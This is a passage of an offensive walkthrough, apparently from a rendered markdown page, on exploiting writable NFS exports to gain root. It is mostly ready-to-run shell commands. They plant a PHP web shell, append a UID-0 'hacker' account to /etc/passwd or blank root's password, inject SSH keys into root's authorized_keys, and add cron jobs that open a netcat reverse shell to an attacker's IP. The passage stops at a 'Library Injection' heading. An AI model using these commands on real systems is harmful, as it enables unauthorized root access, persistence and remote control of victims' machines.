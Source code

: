 ##### Remote Execution Methods
```bash
# If you have limited shell access
# Method 1: Via existing shell
echo './suid_shell' > /tmp/run_exploit.sh
chmod +x /tmp/run_exploit.sh
/tmp/run_exploit.sh

# Method 2: Via cron job (if write access to cron)
echo "* * * * * root /path/to/nfs/export/suid_shell" >> /etc/crontab

# Method 3: Via web shell (if web server present)
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
# Then visit: http://target-ip/shell.php?cmd=/path/to/nfs/export/suid_shell
```

### Method 2: File Overwrite Exploitation

#### System File Replacement
```bash
# Backup original files first
sudo cp /mnt/target_nfs/etc/passwd /mnt/target_nfs/etc/passwd.bak
sudo cp /mnt/target_nfs/etc/shadow /mnt/target_nfs/etc/shadow.bak

# Create malicious passwd entry
echo 'hacker:$6$salt$hashedpassword:0:0:root:/root:/bin/bash' >> /mnt/target_nfs/etc/passwd

# Or modify existing root entry
sudo sed -i 's/root:x:/root::/' /mnt/target_nfs/etc/passwd

# SSH key injection (if SSH is enabled)
sudo mkdir -p /mnt/target_nfs/root/.ssh
echo "<your-public-key>" | sudo tee -a /mnt/target_nfs/root/.ssh/authorized_keys
sudo chmod 600 /mnt/target_nfs/root/.ssh/authorized_keys
sudo chmod 700 /mnt/target_nfs/root/.ssh
```

#### Cron Job Injection
```bash
# Add malicious cron job
echo "* * * * * root /bin/bash -c 'nc <your-ip> 4444 -e /bin/bash'" | sudo tee -a /mnt/target_nfs/etc/crontab

# Or create user-specific cron job
sudo mkdir -p /mnt/target_nfs/var/spool/cron/crontabs
echo "* * * * * /bin/bash -c 'nc <your-ip> 4444 -e /bin/bash'" | sudo tee /mnt/target_nfs/var/spool/cron/crontabs/root
sudo chmod 600 /mnt/target_nfs/var/spool/cron/crontabs/root
```

### Method 3: Library Injection
